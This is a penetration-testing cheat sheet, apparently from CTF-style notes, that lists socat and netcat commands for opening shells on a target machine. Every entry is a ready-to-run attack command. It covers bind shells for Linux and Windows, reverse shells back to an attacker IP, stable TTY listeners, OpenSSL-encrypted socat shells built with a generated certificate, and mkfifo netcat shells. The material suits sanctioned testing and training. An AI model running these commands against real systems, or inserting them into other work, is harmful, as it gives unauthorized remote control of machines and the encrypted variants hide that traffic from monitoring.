 Bind shell listener (target)
```
socat TCP-L:<PORT> EXEC:"bash -li"
```

Bind shell listener Windows (target)
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes 
```

Bind shell connect (attacker)
```
socat TCP:<TARGET-IP>:<TARGET-PORT> - #Bind shell connect (attacker)
```

socat stable listener
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0 
```

#stable listener connect
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## socat encrypted shells

create encryption key and certificate
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

#merge key and cert to pem file
```
cat shell.key shell.crt > shell.pem
```

#encrypted reverse shell listener
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0
```

connect back
```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash 
```

socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes #bind shell (target)
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 - #bind shell connect (attacker)

socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0 #socat linux stable listener
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane  #socat linux stable listener connect


mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f #make linux bind shell listener
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f #connect to listener
